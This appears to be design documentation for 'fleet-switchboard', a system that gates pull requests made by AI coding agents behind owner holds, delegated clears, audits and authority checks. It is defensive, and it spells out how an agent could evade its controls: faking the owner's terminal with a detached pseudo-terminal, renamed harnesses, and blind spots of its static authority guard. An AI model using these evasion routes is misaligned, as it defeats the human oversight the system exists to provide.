**Who clears a hold: the owner's clear is for the top tier only (#451).** The rule is data in `docs/review-laws/impact-matrix.json` (`owner_hold`): the top tier is credentials, identity and who may do what, as path globs (`top_tier_paths`, per class) and impact classes (`top_tier_classes`); `other_classes` names the classes that are not top tier. `impact_floor.owner_decide` reads only that block (the code has no path or class list). A pull request holds for the owner when it changes a top tier path, when an independent rating at a hold level names a top tier class, a missing class or a class the file does not know (fail closed), or when its diff cannot be read in full; a block that is missing or malformed makes every change hold, and a matrix file that cannot be read raises `MatrixError` rather than reading as "no floor": the daemon pass then makes no judgement and says so (`impact.error`), and `impact hold --dry-run` prints one line and exits non-zero. It does not hold every pull request while the file is unreadable (an owner decision, flagged in the pull request). Any other floor path, and a hold-level rating of a class named as not top tier, ask for a second independent review and the usual checks decide the merge. Recording an independent hold refuses a class that is not in `top_tier_classes` or `other_classes` (read from the file at record time; an unreadable file refuses too), lists the valid classes and says to run the review again, with nothing recorded (#692). Changing the list is a change to that one file, which is itself a top tier path. This slice adds the rule and its tests; the daemon's labels are unchanged until the re-judge slice.

**The modules that decide who may clear are top tier paths, and a guard keeps it so (#532, slice 1).** The matrix's `top_tier_paths.authority` and the floor globs now list the modules that hold the clear by chat, the clear carry, the reassign of a worker's boss, the launch testers, the plan review and the decision ladder (`answer_authority`: which role may answer which tier; listed rather than exempted, in doubt LIST) (next to the floor and the plan ledger). `owner_hold.authority_modules` is the guard's data: a `vocabulary` of words (function names are split at underscores: `clear`, `hold`, `release`, `carry`, `verdict`, `gate`, `merge`...) and `exempt`, the modules that have such a function but decide no clear, hold or merge, each NAMED with its reason. A test fails, naming the module, when a module in `bin/` defines a function with a word of the vocabulary and is neither a top tier path nor exempted; the code has no module name or word of its own. The guard has a SECOND rule that does not look at names: a module with a comparison (`==`, `!=`, `in`, `not in`) against one of the matrix's `role_literals` (`chief-of-staff`, `operator`, `orchestrator`: the role names a caller is checked by) decides who may act, so a renamed function cannot hide it (docstrings, assignments and dict values are not comparisons). The vocabulary also has the caller-check family (`caller`, `role`, `refuse`, `refusal`, `chief`, `operator`, `person`, `only`); 13 modules of `bin/` hit it by function name, all listed or exempted by name. The lane move (`lanes.py`), the copy of standing orders (`orders_copy.py`), the charter check (`charter_check.py`) and the cloud worker's retire rule (`cloud_worker.py`) hold the caller checks themselves, so they are LISTED; when in doubt, LIST. **What the guard cannot see** (the matrix's `authority_modules.limits`): a role held in a constant and compared by name, a check written with `startswith`, a regular expression, `match` or a dictionary lookup, a literal built at run time, code outside the `.py` files of `bin/` (`bin/fleet-switchboard` included), and a value an unlisted module PRODUCES that an authority function later reads. The fallback is the strict review, which looks for exactly these; an exemption must carry a `Trace:` of where its values go (a test checks that it does), and the decision ladder's input, `external_adapter.py` (its `_role` feeds `answered_by`), is LISTED, not exempted. Not yet moved: the clear command, the hold's application and the gate's floor fact still live in `bin/fleet-switchboard`, which cannot be a top tier path as a whole (a later slice of #532 moves them).

**The class of an impact and the narrow form of an agent definition (#451, slice 2).** The impact reviewer's record carries one more field, the class of the impact that drives its action, required when the action is hold (a hold without one is refused and nothing is recorded; only records already in the ledger without a class keep the top tier reading) (`review record --reviewer impact --impact-action hold --impact-class data`, or an `impact-class:` line in the block; one lower-case word, refused otherwise, the impact reviewer only, kept with the record for that exact head). `owner_decide` reads it: a hold of a top tier, missing or unknown class holds for the owner (and so does a record the ledger cannot give), a hold of a class `owner_hold.other_classes` names asks for a second independent review. An agent definition used to hold whole (`agents/**` is a top tier path). The matrix file's `owner_hold.narrow_by_diff` now names the paths that are judged by content (`paths`), the top level front matter keys that make the permission block (`keys`: the rules, the mode, the tool list) and `max_files`: such a definition holds only when that block differs between the pull request's base and its head (the normalised text of those keys; comments and blank lines are ignored, prose and every other key may change). The reader understands a plain subset of YAML only, by a positive list of line shapes (a comment, `key: value`, `- value`, `- key: value`, each value empty, one quoted scalar or one flow collection closed on its line, or a plain scalar; anything else is refused, so a hidden or folded key cannot go unseen): a quoted or merge key, an anchor, alias or tag outside quotes, a repeated tracked key, a block scalar under a tracked key, a front matter not closed at column 0 and a Unicode line break all make the definition unparsable, which holds (a `#` line inside a tracked block counts as content; a test checks that every definition of this repository parses). The base is the base branch's tip, so a base that moved can only add a hold. An added, removed, unparsable or unreadable definition holds; so does a pull request that changes more than `max_files` of them (not read). The reads are `gh api repos/R/contents/<path>?ref=<sha>`: two for each definition changed (its base and its head) and none for a pull request with no definition. A missing or malformed `narrow_by_diff` block means the whole path holds, as before. Until the re-judge slice the labels still follow the old decision: this changes the advisory `owner_decision` of `impact floor`.

**The daemon follows the owner-hold rule and re-judges (#451, slice 3).** The labels now follow `owner_decision` (the rule of the matrix file's `owner_hold` block), not the old floor: a pull request that needs only a second independent review gets none. A pull request is judged (one `gh pr view`, within the pass limit) when its head, the version of the rule (a fingerprint of the matrix file) or its independent impact review record changes. One that carries labels THIS daemon applied (`impact-hold.json`, `applied`: the labels it added, merged across applies, with the time) and no longer holds is released: only the labels in that list come off, checked against the labels the pull request has NOW, the impact review record and the owner's clear under the same lock (a clear that came after the record means whatever is on the pull request is not ours; a record from before the list existed is read as the hold label plus the merge label when it says it added that one); a label a person or another tool added, a pull request with no record of ours and a state file that cannot be read are never touched; the release is audited (`gate.hold_released`) and never made on a failed read (an unreadable ledger or matrix file). The record of what the daemon added is computed from the labels the pull request has when the write is made (read under the lock), so a label that was already there, a person's, is never claimed and never released. `impact hold --dry-run` makes the same decision as the daemon (it prints `would add`, `already labelled`, `cleared by the owner` and `would remove X` for the labels its record lists, then how many holds would be released): a test runs both over the same pull requests and compares. The owner's head-bound clear is unchanged, except that it consumes the daemon's record of the labels it added in the same locked write (what the clear took off is no longer a claim); a `--revoke` of a clear, and the void of a carried clear, consume a record that is OLDER than that clear in their own locked write (a record applied after the clear is the daemon's and stays), so a stale record can never be read as "labels the daemon added". For each version of the rule the daemon posts the list once, as an audit line (`impact.rejudged`) and one note to the Chief of Staff naming the pull requests that stay held, those released and those that now ask only for a second review (`posted` in the state file, so a restart does not post it again). When the matrix file cannot be read the daemon adds no label and removes none, records ONE `impact.error` and wakes the Chief of Staff ONCE for the episode (`matrix_error` in the state file); the episode ends when the file and the floors read again (`impact.recovered`). The merge gate's own refusal for a pull request it cannot judge is G6 reading the floor itself (#488).

**The impact hold writes the labels (#179, slice L4).** A NEW write authority, **off unless the config says `"impact_hold": {"enabled": true}`** (the one line a person flips; `dry_run: true` audits
`gate.would_hold` and writes nothing; `repos.<owner/repo>.enabled: false` stops one repo; the global `plan-gates.off` file stops everything). When on, the daemon's pass (after the ci recorder, for the open
non-draft PRs of the repos under `plan_gates` that name floor globs, at most 6 `gh pr view` reads per pass plus a one-time label ensure per repo) adds **`<user>:merge-captain`** and **`<user>:hold-impact`**
to a PR whose deterministic floor says hold, **or unknown** (an unreadable diff), or whose recorded independent impact review for that exact head says `hold` (`review record --reviewer impact --impact-action hold`;
it can only ADD a hold, never lower the floor). It writes **labels only, no comment**, with the repo's own account (`gh_users`), within about five minutes of a PR opening or its head moving (the list cache is 3 minutes);
the audit carries `gate.would_hold` (the matched paths, globs and reasons) and `gate.hold_applied` (the labels added). It adds only the labels that are missing and removes one only in the case below (#451, slice 3), judges each head once, and retries a
failed write after 5 minutes. The PR then behaves as any held PR: the captain decision shows it and G6 is waiting; **to make the shim refuse the merge, list G6 in the repo's `enforce_gates`** (a person's config edit).
`fleet-switchboard impact hold --dry-run [--repo R]` shows, read-only, what the daemon would label now. **Only the owner clears a false hold**, from the owner's own terminal:
`fleet-switchboard impact clear <repo#N> --reason TEXT` (at least 10 characters) records the clear for **that head** in `impact-hold.json` (so the daemon does not re-add it; a new head is judged again), removes `hold-impact`
and every other hold of the fleet's own prefix that the pull request carries at that head (`merge-captain` and each `hold-<reason>`, whoever added it: #742; a label of another prefix or any other label stays), and audits `gate.hold_cleared` with every label removed. **A delegated clear (the Chief of Staff's, under the owner's standing order) keeps the narrower rule**: it removes only the labels the switchboard added, leaves the author's `hold-<reason>` labels, and is refused (`gate.hold_clear_refused`, nothing written) for a pull request that carries a `merge-captain` the switchboard did not add, because that is a person's own hold; a caller that is neither the owner nor the Chief of Staff under a listed standing order is refused (`gate.hold_clear_refused`): G6 is never waivable by the Chief of Staff. **One lock, and the fail modes written down.** The daemon's `clear check -> label write -> applied record` and the owner's `clear record -> label removal` run under ONE exclusive file lock (`impact-hold.lock`, waits up to 30 s,
then the write is retried later, never done unlocked), so a clear is never lost and a cleared hold is never re-added. **Everything unknown fails toward hold**: an unreadable diff (`floor unknown`), a ledger that cannot be read
(the independent rating is unknown: the PR is held and `impact.ledger_unreadable` is audited, as G1 already refuses on a bad ledger) and a corrupt, oversized (over 1 MB) or non-object `impact-hold.json` (reported as `impact.state_unreadable` and **quarantined**: renamed aside to `impact-hold.json.corrupt-<time>`, never overwritten, so the clears in it can be
recovered by hand; the pass starts from an empty state, the hold is still written and the owner can clear again). A missing ledger file is an empty ledger (no hold from the rating), not an unreadable one. `gate.hold_cleared` is appended inside the lock, and a clear with no audit sink is refused loudly
before anything changes; `impact clear` says one line (`locked by another process ... try again`) when the lock wait runs out. The lock is held over the label calls on purpose (bounded by the gh call timeout); `impact_hold.calls_per_pass` (default: the floor pass's, 6) bounds the reads and writes of one pass. The clear reason has control characters stripped. Like every label while agents share one
GitHub account, the hold is a **guardrail, not a boundary**: whoever can edit labels can remove it, and a removal with no `impact clear` is re-added the next time the daemon restarts and judges that head again.

**`verdict --all` and `gates stats`.** `fleet-switchboard verdict --all --pr <repo#N> --as reviewer|tester|ci|owner --result pass|fail --evidence TEXT` records the
verdict for **every** per-PR scenario of the PR's plan that names that evaluator, in one command, **all or none** (one write under the ledger lock), and it **requires `--head <sha>`**, the head you judged, which must be the PR's current head (a batch is never stamped with whatever the head is now) (the same checks as a single verdict, once:
the registered evaluator, never an author of the PR, the owner's own terminal for `owner`; it never records for another evaluator's scenarios, takes no scenario id, and
refuses when the plan names no scenario for that role). The ledger never uses the pull request's base branch to choose or relax a plan: a pull request, including one into an integration branch, is gated by the plan its body links with a `PLAN:` line (or `--plan`), and `verdict --all` refuses with "no per-PR scenario of this plan is judged by reviewer" (naming the evaluator you passed) when the linked plan has no per-PR scenario naming that evaluator. `fleet-switchboard gates stats [--limit N] [--json]` reads the ledger and prints, for each merged gated PR
(newest first, default 10), the evidence records by actor (the switchboard's own `ci` records are the automatic ones) and the minutes from the first gate record to the merge,
so the steps and minutes the gates cost can be reported.

**Re-running a head's CI.** A head with no run, or a run that was cancelled, is re-run without a push or a close and reopen: `gh workflow run test.yml --ref <branch>` (the workflow has `workflow_dispatch`, no inputs; its checks are named like a pull request run's and count for the branch's head; its concurrency group is its commit sha, so it never cancels the pull request's own run). Then `gates ci-record <repo#N>`.

**The built-in `ci` recorder.** `fleet-switchboard gates ci-record <repo#N>` makes the switchboard itself record the `ci` verdict. It reads the PR's
check runs at its **current head** through `gh` (the repo's account) and only when they are all complete and green records a passing `ci`
verdict, by the reserved name `switchboard`, for each per-PR scenario that names `ci`, bound to that head and to the plan's current hash. For a
failing, pending or missing run it records nothing; a second run at the same head and plan records nothing twice; a push or a plan change
voids it like any verdict. Any caller may run it, because the verdict says only what GitHub's checks say, whoever asked. It does not know
whether the checks actually exercise the scenario: that is the plan's author's and the reviewers' concern. `verdict --as ci` is still available to an
agent registered under `plan_evaluators.ci`, but nobody can use the name `switchboard`.

**The preflight checks the recorder is real.** `plan_evaluators.ci` may list `switchboard` (the built-in recorder) or agent names. `enforce` is
**refused** (by `gates mode ... enforce`, and a hand-edited `enforce` runs as `shadow`) when `ci` is empty, **or when it lists only `switchboard` and the audit
holds no successful `gate.ci_record` in the last 7 days**: run `gates ci-record` on a PR whose CI is green to prove it, and run it again from time to
time (a daemon pass that does so is a later step). A failed record, or one older than a week, proves nothing. `gates preflight` says which.

**How "the owner's own terminal" is established (hardening of the owner verdict, #107).** No agent session is not enough: an agent that
unsets `OPENCODE_SESSION_ID` and `HERDR_PANE_ID` has none either. So the check requires, besides no session, that (a) standard input and
standard output are a **controlling terminal** (an agent's tool shell runs on pipes) **and** (b) **no ancestor** in the caller's process chain, walked up
to 25 parents with `ps`, is an `opencode`, `fleet-opencode` or `copilot` process. If either cannot be established (no `ps`, an unreadable
parent, a chain that does not end) the answer is a refusal with the reason, never a yes; the reason is printed and audited
(`plan.verdict.refused`). The same check guards `gates mode` and `gates off|on` for a person; the chief of staff, an agent session, needs none.

**What this is, plainly: a strong mistake guard, not a boundary against a determined agent that holds the owner's account.** All agents and
the owner share one GitHub login and one user account on the machine. An agent that is determined to impersonate the owner could still
allocate a pseudo-terminal (`script`, `expect`, a `pty` library) and detach itself from its agent ancestors (a double fork, `setsid`, a daemon
that the init process adopts), after which both checks pass; or write the ledger, the config and the kill file directly. None of that is provable
from inside the process. What the checks do stop is the honest mistakes and the cheap tricks: a tool shell on pipes, unsetting two variables, and a
verdict recorded by the agent that ran into the gate. Real separation of the owner's verdicts needs something an agent cannot reach (a separate account, a hardware
confirmation, or a required check on GitHub); this slice does not provide it.

**One place.** The owner-in-person check is a single function, `gates_caller_kind` (it wraps `owner_terminal_problem`), and every command that is "only the
owner, at a terminal" must ask it and nothing else: today `verdict --as owner`, `gates mode` and `gates off|on`. A new such command (a later waiver by the
owner, for instance) uses the same function so the rule cannot drift between commands; a test pins that it is called from exactly one place.

**The process table is read with a trusted `ps` only.** The check runs `ps` from a fixed path (`/bin/ps`, then `/usr/bin/ps`; never found on `PATH`, so a
`ps` placed earlier on `PATH` cannot decide who is a person), only if that file is a regular executable owned by root and not writable by others, and with a
scrubbed environment (`PATH=/usr/bin:/bin`, `LC_ALL=C`, nothing else). With no such `ps` the chain cannot be read and the check refuses. Tests put a fake `ps`
first on `PATH` and show it is never run.

**Two things stay unprovable, and they are why this is a mistake guard and not a boundary.** (1) **A pty that is double-forked or reparented.** An agent that
allocates a pseudo-terminal and detaches the process that holds it (a double fork, `setsid`, adoption by init) has no agent among its ancestors and a real terminal;
nothing in the process can tell it from the owner's shell. (2) **A harness that is not on the list.** Ancestors are matched against `opencode`, `fleet-opencode`
and `copilot`; an agent harness under another name is not seen, and a renamed copy of one is not either. Both are the same limit as the session variables: an agent
that is determined to pass as the owner can, and only something it cannot reach (a separate account, a hardware confirmation, a GitHub required check) would stop it.

### An owner's clear carries over a pure merge of main (#510)

An owner clear is bound to one head. When main moves, a pull request that conflicts or must be current merges main into its branch: a new head, and the clear no longer applied, though the pull request's OWN change was exactly what the owner cleared. With `"impact_hold": {"enabled": true, "carry_clear": true}` (**off by default**; anything but a real `true` is off) the clear now carries to that head, and to nothing else.

- **What the clear stores.** Next to the head, a fingerprint (`sha256`) of the pull request's own change: its changed files with their blob ids and patch text, against the merge base of that head (`bin/clear_carry.py`, the one function `own_change_fingerprint`, used at the clear and at the carry). A clear made while the switch is off, or one whose change could not be read in full, has none and never carries.
- **When it carries (the daemon's judgement, before the hold is written).** ALL must hold, each read in full from GitHub: the cleared head is an ancestor of the new head; every step from the new head back to the cleared head along first parents is a merge of two parents (a commit of the pull request's own is never carried); the second parent of each merge is on the pull request's BASE branch (a merge of a side branch is never carried: GitHub shows no file mode, so a mode change could ride on one); no file in those merges differs from BOTH parents (a conflict resolved by hand, or a file both sides changed, voids it); the fingerprint of the new head's own change against ITS merge base is identical to the ORIGINAL one (the base branch name is part of it, so a retargeted pull request is a different change; never to an earlier carried head, so carries cannot drift); the head and the base did not move while it was read.
- **Everything else voids it, as today.** A commit of its own, an edited, added or removed file, a resolved conflict, a rewritten history (force-push, rebase), a head that does not contain the cleared one, a truncated file list, a patch GitHub omits (a binary file or a change too large; a pure rename is pinned by its blob id), or any read error: the hold is written and the audit line `gate.clear_carry_void` says why, once per head.
- **What you see.** A carry is one audit line per new head, `gate.clear_carried` (both heads and the fingerprint), and the gate row of the PR says `the owner's clear of <head> carried to this head`. `impact hold --dry-run` counts it as cleared. A carry changes no label.
- **Taking it back.** `fleet-switchboard impact clear OWNER/REPO#N --revoke --reason ...` (the owner's own terminal only) removes the clear and any carry of it: the daemon holds the PR again at its next pass and nothing carries. A fresh clear starts again from its own head.
- **Limits.** A merge of main that changes how the pull request's own lines BEHAVE without changing them (a semantic interaction) still carries: the owner sees the carry and can revoke it. A file both sides changed cleanly voids the carry (conservative). The carry is judged at the new head only: a clear recorded as carried stops counting when the owner switches `carry_clear` off.

### The owner's clear also changes the marker line (#522)

The merge gate reads a pull request as held from its merge label, and, with no merge label, from the first non-empty line of the body when it says `MERGE: captain` (until 2026-11-10). The owner's clear lifts the whole hold, so the SAME step (`impact_clear_core`: his `impact clear` and his words in the chat both end there, and only there) changes that one line to `MERGE: automatic`. One function does it, `neutralise_marker`.

- **Only that line.** Every other byte of the body stays, a later line quoting the marker included. A body whose first line is anything else is not written.
- **Only his clear, only that head.** The body is read fresh for the head he cleared (any other head: nothing), read again just before the write and written only if it is the same, then read back. A carry of a clear to a new head (#510) never touches the body, and the line stays neutral.
- **Said and logged.** `gate.clear_marker` holds the head and the line before and after (the author's text with control characters replaced, in the output too). The write is best effort: GitHub has no conditional body write, so an edit landing between the last read and the write is not detected (the read-back says if the body is not what was written).
- **A failure never undoes the clear.** If the body cannot be read, written, or changed meanwhile, the output says `marker line remains: ... edit it by hand` and `gate.clear_marker_failed` says why.

### The Chief of Staff is told when the owner clears (#541)

Every owner clear wakes the Chief of Staff with ONE line, and the orchestrator whose lane merges the pull request gets the same line: `owner cleared <repo#N> at <head8>: "<his reason>"; <lane> merges it`. A clear that CARRIES to a new head (#510) sends `owner's clear carried <repo#N> from <head8> to <head8>; <lane> merges it`. One function, `notify_clear`, is called once from the shared clear step (`impact_clear_core`: his command and his words in the chat both end there) and once from the carry decision, AFTER the clear (or the carry) is recorded and outside the impact-state lock; a refused clear sends nothing.

- **The lane** (#597). Two sources, each used only when it resolves: the pull request's PLAN, taken through `authoritative_plan` (the function the gates use: the body's PLAN line, else the first ledger entry's plan) and only while it PASSES the plan check, up to the charter that holds it AS IT IS NOW (each parent is read fresh, so a moved ask counts under its current charter) and that charter's one running orchestrator; and the agent that recorded the pull request's `notice pr` (its boss when it is a worker). When both resolve and AGREE that lane is told; when they DISAGREE the line says `lane unclear: plan lane A, notice by B` and only the Chief of Staff is told (neither lane is told to merge; audit `lane_unclear`); when one resolves it is used; none is `lane unknown`. A charter with TWO OR MORE running orchestrators is never picked between (`lane unknown: charter #N has 2 orchestrators: a, b`); a charter nobody runs counts as no plan lane. Only a running orchestrator counts.
- **The reason** is one line of at most 300 characters, control characters out and token-shaped text replaced, like the audit line.
- **Once** per pull request, head and kind (`clear-notified.json`, private); the mark is written before the send, so a failed send is not retried into a duplicate.
- **Last, and bounded.** The notice runs AFTER everything else of the clear is done (the state, the labels, the marker line of #522, the audit), on its own thread, and the clear waits for it at most 2 seconds (`NOTIFY_CLEAR_DEADLINE_SECONDS`). A timeout, an interrupt or an exit inside the send gives up, audits `gate.clear_notify_failed` once with `notice not sent: <why>`, and the clear's output and exit status are exactly as without a notice. The carry's call site is bounded the same way.
- **Nothing is undone by a failed send.** It goes through the normal `send` path, and a failure (an exception, or an answer that is not "sent") is audited as `gate.clear_notify_failed`; a delivery is `gate.clear_notified` (recipients, lane, how the lane was found). Who may clear, and what a clear removes, do not change.

### A held pull request is a decision row on its hold labels alone (#641)

A pull request held for the owner (`merge-captain` or a `hold-*` label) is a row of the decision list whether or not a pull request notice was ever recorded for it, so a held pull request nobody recorded a notice for is no longer labelled but never listed. `decision_core.labels_entry` builds the row: kind `captain`, the SAME id a notice would give it (`pr:<repo>#N`, so it is one row once a notice is recorded and keeps the notice's sender then), tier `cos` until the Chief of Staff escalated it for this head, its head and hold reasons, and no sender and no lane, saying `no notice recorded`. The rows are read from the open-pull-request list the daemon's ci recorder ALREADY holds (the `plan_gates` repositories): no read of its own and none per pull request, so only the daemon's passes list them. A merged, closed, excluded or unwatched pull request adds none; a list that may be cut (200 records or more) or a repository whose list is gone keeps the rows already shown, for a day at most (the next complete list drops a row at once: a pull request that merged while the list was cut does not stay); the pull request's identity is folded once (`decision_core.pr_key`, case-insensitive) for the notice rows and the labels rows, so a notice recorded as `Acme/Api` and a list that names `acme/api` are one row. Which labels count is the existing rule (`merge-captain` or a `hold-*` label under any label prefix), not a new one.

**Acting on such a row from the command line (#712).** The command line's own derivation cannot build a labels-only row (it reads the hub only the daemon's passes fill), so when `decisions escalate|resolve|answer|supersede` finds no decision for a `pr:` id it looks in the persisted decisions file (`persisted_pr_decision`). The file only says "this pull request was listed": a missing, unreadable or stale file is a miss, and `escalate` takes the notice path, which reads the pull request NOW and escalates only when it is open and still holds, at its current head (otherwise it says so and changes nothing). `resolve`, `answer` and `supersede` refuse as they do for any captain row ("merge or close the PR, or escalate it"). The caller, tier and audit checks run on the found row unchanged.

### The Chief of Staff's clear under the owner's standing order (#661)

`fleet-switchboard impact clear <repo#N> --under-order <n> --reason <text>` lets the Chief of Staff lift an impact hold when the owner has ordered it as numbered standing order `n` of a charter. It is OFF unless the configuration says so: `"delegated_clear": {"orders": [{"number": 17, "sha256": "<sha256 of the order's text>"}], "charter": 40}` (the charter issue that holds the orders; absent, `false` or an empty list is off). Order numbers are POSITIONS in the charter's `## Standing orders`, so the configuration binds each number to the HASH of the order's text (`delegated_clear.order_hash`: sha256 of the bullet as `orders list --json` shows it): an edit, an insertion or a removal above it changes the text at that number, the hash no longer matches and the delegation is refused until the owner re-binds it. `bin/delegated_clear.py` is the check; it holds no path or class of its own: the rule is the matrix's `owner_hold.delegated_clear` block.

- **Who.** The caller must be the Chief of Staff's own session (its RECORDED role: `gates_caller_kind`, never a flag or the text). That is the SAME mistake-guard as `waive` and `move` (the environment's session id): the delegated clear adds no trust beyond it. The owner's own plain `impact clear` is unchanged and needs no order (`--under-order` from his terminal is refused as not for him). The configuration is a same-user file: an agent that could edit it could also run the owner's commands, which is the existing same-user caveat; what stops a wrong clear is the owner-set list, the refusals below and the review of every pull request.
- **Which order.** It must be listed in the configuration, really be an order of the charter (read from GitHub) and still have the text the configuration is bound to. The order's text is audited, bounded and with control characters removed.
- **Refused, so it stays the owner's own clear:** a pull request whose owner-hold decision (the daemon's own `pr_floor_report`: no second rule) names a path of a class the matrix lists as `never_path_classes` (credentials, identity: the credentials class lists the token mint, the app token, the preflight, the worker entrypoint and the shims); one whose INDEPENDENT REVIEW's class is a `top_tier_review_classes` class (credentials, identity or authority/permissions, a hold with no class named, or no review recorded at this head); anything that cannot be read (the decision, the rule, the file list, a patch that is cut); and any change to the clear or hold machinery, by these rules:
  - **Named files, whole file:** the matrix, `bin/delegated_clear.py`, `bin/chat_clear.py`, `bin/clear_carry.py`, `bin/impact_hold.py` (the clear command, its core and the checks of this section live in it since #626), `bin/impact_floor.py`, `bin/plan_check.py`, `bin/plan_ledger.py`, `bin/repo_exclusion.py` (the modules the clear's own checks load for authority), and the loaded directories `plugins/fleet-hooks/`, `shims/`, `templates/`, `tools/cos-permissions-proof/`, `.github/workflows/`. The floor's own case-, normalisation- and spelling-insensitive matcher judges them (`BIN/X`, `./bin/x`, `bin//x`, a `..`, a rename's source; a NUL path is refused).
  - **A new, deleted or renamed file under `bin/`:** refused (a new module there is loaded by the process that decides who may clear). Other edits to existing `bin/` files are allowed.
  - **`bin/fleet-switchboard`:** each changed line is mapped to its top-level definition with `ast` (removed lines against the base file, added lines against the head file). Refused: a changed line in a definition of the clear closure (the definitions reachable by name from the clear command, on base and head together), in a binding or import the closure reads, in any other top-level statement, or in a definition that names a clear entry point; a line that cannot be mapped is refused. Other functions stay allowed.
  - **Every other module the clear loads or runs** (`closure_files`: a module the clear's own code reaches through a loader, the daemon's imports at load, every module with a config reader, and what a recorded run of the clear executes. A test DERIVES the list from every loader of the daemon (each `load_module("x")`, each name of `HELPER_MODULES`), and every other loaded module is listed in `closure_exempt` with the reason the clear cannot reach it; a module the clear does not load, such as the lane module, is not judged). The daemon's roots (`closure_roots`) are every daemon name the moved clear code in `bin/impact_hold.py` reads, plus the table that generates the daemon's loaders; a test derives them too. A module reached through a loader and with no recorded functions has `*` as its roots: every function of it is refused: ANY change to its import-time code (imports, constants, top-level statements, decorators, defaults or annotations that call something, class bodies), and to the functions of `module_roots` (the config readers every module with a `CONFIG_KEY` declares, and the functions a recorded run of the clear calls), is refused; its other functions stay allowed. A test derives the list from a profile of the real clear and from the config-key scan, so a loaded module that is not covered fails it. A name the closure reads through a module-level binding is followed to a fixed point (the right-hand side, the class body, the loader function). The base text is read at the merge-base commit, the one the patch is against.
  - **The limit, plainly:** the closure is found by NAME with static `ast`: no dynamic dispatch is followed, and a class the closure refers to brings its own statements and only the methods whose name the closure reads (as a name or an attribute) and its special methods (`__init__`, `__getattr__`...), so an unread method of such a class stays editable. The closure of the daemon file is by name; for another module the check is import-time code (statements, decorators, defaults, bases, class bodies) and the `module_roots` functions, so a function of such a module that the clear does not run stays editable (the decision core's ordinary functions, for one). `module_roots` comes from a profile of one recorded clear and from a scan of every module's `validate` and `settings`: a path of the clear that run does not take is not in it. This is a guardrail, not a boundary: the boundary is the owner-hold review of what the check cannot follow.
  The head read after the file list must still be the head the decision read. A repeated order number in the configuration makes the whole feature off. `--revoke` removes any clear, including one made under an order. The order is read from the same repository and config the same user controls, so the hash binds the text, not the author.
- **What it does.** The clear is bound to the head the checks read, removes the same labels, wakes the same clear notice (`<name> cleared <repo#N> at <head8> under the owner's standing order N: "<reason>"; <lane> merges it`) and is audited as `gate.hold_cleared` with `by` (her name), `under_order`, `order` (the order's text) and `reason`; a refusal is `gate.hold_clear_refused`. `--revoke` under an order works too, and it removes ANY clear of the pull request, the owner's own included (it fails toward safe: the hold returns; `gate.clear_revoked` records `under_order`).

### The delegated clear by impact score (#835)

The Chief of Staff may clear a held pull request on her own judgement when its independent impact rating, at the head as it is now, is at or below a level the owner sets. It works in any watched repository. The owner is asked only for the changes that rate above it.

This replaces the path-class refusal of the section above only when the level is set. With no `max_level`, the earlier behaviour is unchanged.

#### The threshold

- The score is a level of the impact matrix, in the order `Low < Medium < Serious < High`. The code derives it from the severity and probability the independent impact reviewer recorded, through the matrix cells. The reviewer's own words for a level are never the score. A record without both fields has no score and clears nothing.
- The owner's target is `Serious`: she may clear `Serious` and below. `High` is always the owner's, whatever the path or her judgement. The matrix file lists the delegable levels (`Low`, `Medium`, `Serious`), so `High` is never accepted as a threshold.
- The key is `max_level`, written beside each listed order under `delegated_clear` in the owner's configuration. Absent, empty or malformed means "clear nothing". It is never set in a committed file.

#### When the key turns on

The key turns on only when the owner's own standing-orders line is matched by hash. The entry names the owner's standing-orders file (the one `fleet-switchboard orders --cos` prints) as its source, with the sha256 of the order's exact line.

- The code reads that file read-only and never writes it. No command of the fleet writes it.
- The match is exact: one line, trimmed of its line end only, whose sha256 equals the bound hash. No case folding, no substring, no fuzzy match.
- Zero lines, more than one, an edited line, or a file that cannot be read in full (missing, unreadable, over its size cap) all mean the order is absent. The key then refuses to turn on and "clear nothing" stays.
- The fleet doctor check fails when a configured entry no longer matches, so a vanished or edited line is seen at once.
- A charter-numbered entry works as before.

#### How a floor path raises the score

A path of the credential, identity or authority classes is an input to the rating, not a separate hold.

- A floor path makes `Serious` the LOWEST score the change can get, never `Low` or `Medium`.
- The independent rater rates `High` when the change really alters credential issuance, a login, a token's scope or who may do what. A warn-only shim change or a CI timeout on a floor path stays `Serious`, which she may clear.
- The rating's reason must name the path rule's id from the matrix file. A rating on a floor path that does not name it does not count, and the clear is refused.
- A rating below `Serious` on a floor path is refused at read time ("below the floor"), whatever the rater wrote. It is never raised to `Serious` and cleared.
- Path forms the floor reads as one file (`./x`, `a//b`, case, a `..`, a rename's source) get the same floor. A changed-file list that cannot be read in full has no score.
- The floor data lives in the matrix file; the clear code holds none.

#### Whose rating counts

Only a record by the independent impact reviewer at exactly this head counts, never one by the author or the Chief of Staff. The highest level of any such record at this head is the rating, so a later lower record cannot lower it. An unreadable ledger, a broken chain, no record, or a record with no severity or probability is refused, never read as `Low`.

#### Never delegated, whatever the score

- The clear and hold machinery, and the files the daemon loads.
- The impact matrix file, including its floor rules and delegable levels (the levels in force are the base's, not the head's).
- The standing order, and the code that reads or validates the order, the threshold or the rating.

These stay the owner's own clear. The list is data in the matrix file, and a completeness test derives it from what the clear loads.

#### Audit and listing

Every delegated clear is audited with the score, the threshold, the head and her one-line judgement, and the panel notice shows the same four. A refusal is audited (`gate.hold_clear_refused`) with the reason and the score read, and is never listed as a clear. The owner lists delegated clears with a listing command, one row per clear with those four fields. She may also raise a pull request to the owner instead of clearing it.

#### The closure and the dynamic edges (#835)

What the Chief of Staff can never clear is computed from the code by name: every definition reachable from `closure_roots` and `rating_roots` of the matrix file. Two string edges are followed, for the actions in `dynamic_actions` (`review`): the dispatcher's `"cmd_" + action` (to `cmd_review`) and the parser's `add_*_parsers` name pattern (to `add_review_parsers`). Any OTHER dynamic edge (`getattr` with a computed name, `globals()`, `importlib`, `eval`) is a stated limit, and a test lists the ones on the call path from `main` to the rating code: a new one fails it until it is followed or listed with its reason.

The rating's inputs are immune to the shared parser: `main` captures the raw command line before any registrar runs, and `review record` reads its six rating inputs (`--impact-severity`, `--impact-probability`, `--impact-reason`, `--impact-action`, `--impact-class`, `--block`) only through `rating_inputs`, a private parser over that raw line (no abbreviation, no default, nothing shared). `main` also checks that the functions of the rating path (`RATING_PATH_FUNCTIONS`) are the same objects after the registrars ran, and refuses to record if not. A registrar's `set_defaults`, a replaced subparser, a same-dest argument or a wrapper on the namespace changes nothing in the recorded rating. The honest limit: no shape makes the rating immune to arbitrary Python that runs while the parser is built (a registrar that patches `argparse` or the ledger module); the closure is a mechanical backstop for ordinary edits, not a sandbox, and the independent reviewer rates a change that touches the rating path.

#### Where it lives

